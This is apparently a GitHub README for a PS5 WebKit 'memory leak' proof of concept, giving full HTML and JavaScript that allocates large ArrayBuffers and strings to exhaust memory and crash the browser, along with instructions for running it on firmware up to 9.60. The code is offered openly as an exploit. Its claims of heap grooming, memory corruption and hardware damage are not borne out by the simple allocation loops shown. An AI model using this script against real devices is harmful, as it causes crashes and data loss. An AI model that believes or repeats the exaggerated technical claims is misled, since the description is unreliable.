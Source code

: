 # Overflow WebKit Memory Leak PoC

## **DISCLAIMER**

**THIS REPOSITORY IS FOR TESTING PURPOSES ONLY!**  
A significant portion of this code might be incomplete or ineffective. If this vulnerability is ever fully exploited, it will likely be done by someone with far more expertise. I do not claim to be an expert in exploit development!

This PoC is for **educational purposes only**. The author assumes no responsibility for any misuse of this code.

## Link

Follow this link for the exploit: [Overflow WebKit Memory Leak PoC](https://seregonwar.github.io/Overflow/)

## Description

This Proof of Concept (PoC) demonstrates a WebKit memory exhaustion exploit under development. The exploit aims to exhaust memory resources by creating large amounts of objects and deallocating selectively to induce memory corruption. The PoC is effective on some versions of PS5 firmware (up to version 9.60) but requires further development for full exploitation.

This JavaScript code handles memory manipulation through a combination of heap grooming and overflow techniques, aimed at triggering a memory leak or system crash.

## How It Works

### Key Steps:
1. **Heap Initialization**: Controlled memory allocations to prepare for exploit.
2. **Heap Grooming**: Strategic allocation and deallocation to create exploitable memory gaps.
3. **Memory Exhaustion**: Continuous memory allocation to deplete available resources.
4. **Payload Execution**: String concatenation and object creation to force memory corruption.
5. **Exploit Execution**: All steps executed in sequence to trigger memory exhaustion and cause a crash.

## Code

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <title>Memory Leak</title>
    <style>
        body, html {
            height: 100%;
            margin: 0;
            display: flex;
            justify-content: center;
            align-items: center;
            flex-direction: column;
        }
        button {
            font-size: 30px;
            padding: 15px 30px;
            border: none;
            background-color: #007BFF;
            color: white;
            cursor: pointer;
            border-radius: 10px;
            margin: 10px;
        }
        button:hover {
            background-color: #0056b3;
        }
        #divMsg {
            margin-top: 20px;
            font-size: 20px;
        }
    </style>
    <script>
        function log(message) {
            console.log(message);
            document.getElementById('msg').innerHTML += `<p>${message}</p>`;
        }

        function initializeHeap() {
            let buffers = [];
            for (let i = 0; i < 1024; i++) {
                buffers.push(new ArrayBuffer(250000));
            }
            return buffers;
        }

        function groomHeap() {
            let tempArray = [];
            for (let i = 0; i < 1024; i++) {
                let buffer = new ArrayBuffer(500);
                tempArray.push(buffer);
            }
            for (let i = 0; i < 756; i++) {
                tempArray[i] = null;
            }
            return tempArray;
        }

        function memExh() {
            let bufferArray = [];
            for (let i = 0; i < 1024; i++) {
                bufferArray.push(new ArrayBuffer(450000));
                if (bufferArray.length > 256) {
                    bufferArray = [];
                }
            }
        }

        function payload() {
            let largeString = "B".repeat(450000);
            let obj = {};
            let iterationCount = 0;
            while (iterationCount < 32) {
                largeString += largeString;
                if (largeString.length > 50000000) {
                    largeString = "B".repeat(450000);
                }
                memExh();
                iterationCount++;
            }
        }

        function performExploit() {
            let controlledBuffers = initializeHeap();
            let groomedHeap = groomHeap();
            memExh();
            payload();
        }

        function startExploitWithDelay() {
            setTimeout(() => {
                performExploit();
            }, 4770);
        }
    </script>
</head>
<body>
    <button onclick="performExploit()">Latest Iteration</button>
    <div id="msg"></div>
</body>
</html>
```

### Payload and Execution:

- **Step 1: Heap Initialization**: Creates 1024 `ArrayBuffer` objects of 250KB each.
- **Step 2: Heap Grooming**: Allocates and selectively deallocates memory blocks to introduce exploitable gaps in the heap.
- **Step 3: Memory Exhaustion**: Continuously allocates and deallocates memory buffers of 450KB each, exhausting system resources.
- **Step 4: Payload Execution**: The payload performs string concatenation, continuously creating large strings and exhausting available memory.

## Instructions

1. Execute the above code on an exploitable PS5 (firmware version up to 9.60). It may not work on PS4.
2. This is a PoC for **educational purposes only**. Do not use on critical devices or systems.
3. The PoC triggers a **heap memory exhaustion** vulnerability, causing the system to potentially crash or leak memory.
4. For more advanced use, custom payloads can be inserted in the `payload()` function.

## **WARNING**

Running this PoC involves serious risks, including:

1. **Device Bricking**: Incorrect execution could irreversibly brick the system.
2. **Data Loss**: Memory vulnerabilities can lead to data corruption or loss.
3. **Incompatibility**: May not work on all systems or firmware versions, leading to unexpected consequences.
4. **Hardware Damage**: Continuous memory exhaustion can damage hardware.

## Credit

Credits for the original structure go to [idebty](https://x.com/idebty), who discovered the vulnerability. The current implementation expands upon their work.


